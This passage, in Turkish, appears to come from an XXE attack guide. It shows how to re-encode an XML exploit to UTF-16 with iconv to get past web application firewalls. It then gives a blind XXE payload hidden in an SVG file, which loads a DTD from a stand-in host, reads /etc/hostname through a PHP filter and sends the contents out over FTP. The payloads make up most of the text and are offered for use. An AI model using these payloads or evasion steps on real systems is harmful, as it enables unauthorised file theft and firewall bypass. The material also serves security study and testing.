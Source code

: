 ```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
```

- `iconv`: Linux/Unix sistemlerde karakter kodlaması dönüşümü yapan komut.
- `-f UTF-8`: Kaynak dosyanın kodlaması UTF-8.
- `-t UTF-16BE`: Hedef kodlama UTF-16 Big Endian.
- Çıktı `utf16exploit.xml` dosyasına yazılır.

##### Özetle

- WAF’lar bazen sadece belirli karakter kodlamalarındaki kötü içerikleri yakalar.
- Farklı kodlamalarda (özellikle UTF-16 gibi) aynı zararlı XML’i göndererek WAF’ın filtresini atlatabilirsin.
- `iconv` ile kolayca kodlama değiştirip test yapabilirsin.

Örnek: Bazı WAF'ları atlamak için [iconv](https://man7.org/linux/man-pages/man1/iconv.1.html) kullanarak payload'u UTF-16'ya dönüştürebiliriz:


### 99-XXE SVG İçinde

- **SVG** (Scalable Vector Graphics), XML formatında grafik tanımlama dosyasıdır.

- SVG dosyası içine XXE payload koyarak, hedef sunucunun dış kaynaklara (örneğin kendi kontrolündeki bir sunucuya) veri göndermesi sağlanabilir.

- Bu, özellikle doğrudan veri alınamadığında (blind XXE) kullanılır; veri **remote** gönderilir, sunucu cevap vermez ama dış dünyaya veri sızdırılır.

`xxe.svg` dosyası

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg ...>
  ...
  <flowPara>&exfil;</flowPara>
</svg>
```

- Burada `DOCTYPE` içinde `%sp;` var. Bu, `http://example.org:8080/xxe.xml` adresinden **dışarıdan bir DTD dosyasını** yüklüyor.

- Bu external DTD (`xxe.xml`) içindeki entityler tanımlanacak.

- Sonrasında `%param1;` entity’si çağrılıyor, bu da external DTD’de tanımlı.

- SVG içindeki `<flowPara>&exfil;</flowPara>` kısmı ise, `%param1;` içindeki `exfil` entity'sinin açılımını yapıyor.

`xxe.xml` dosyası

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```
